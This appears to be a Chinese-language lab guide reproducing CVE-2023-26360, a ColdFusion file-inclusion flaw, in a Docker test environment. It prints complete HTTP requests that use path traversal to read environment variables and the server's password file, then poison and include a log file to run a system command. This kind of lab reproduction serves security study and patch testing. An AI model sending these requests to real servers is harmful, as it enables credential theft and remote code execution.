



# Adobe ColdFusion 本地文件包含漏洞（CVE-2023-26360）

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion 2018 Update 15 和 2021 Update 5 版本及以前，存在一处文件包含漏洞。攻击者可以利用该漏洞在服务器上执行任意代码。

参考链接：

- <https://xz.aliyun.com/t/13392>

## 漏洞环境

启动一个Adobe ColdFusion 2018.0.15服务器：

```
docker compose up -d
```

等待一段时间后环境启动成功，访问`http://your-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。

## 漏洞复现

发送如下请求即可读取文件`/proc/self/environ`：

```
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost:8500
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 82
Content-Type: application/x-www-form-urlencoded

_variables={"_metadata":{"classname":"../../../../../../../../proc/self/environ"}}
```

你可以在返回包中找到Adobe ColdFusion的根目录`/opt/coldfusion/cfusion`：



从`../../../../../../../../opt/coldfusion/cfusion/lib/password.properties`中读取服务器密码：



想要利用文件包含漏洞执行任意代码，需要先发送如下请求来写入CFM脚本：

```
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost:8500
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 67
Content-Type: application/x-www-form-urlencoded

_variables=<cfexecute name='id' outputFile='/tmp/success' ></cfexecute>
```

然后包含日志文件，执行该CFM代码：

```
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost:8500
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 111
Content-Type: application/x-www-form-urlencoded

_variables={"_metadata":{"classname":"../../../../../../../../opt/coldfusion/cfusion/logs/coldfusion-out.log"}}
```

可见，`id`命令的执行结果已经被写入`/tmp/success`：


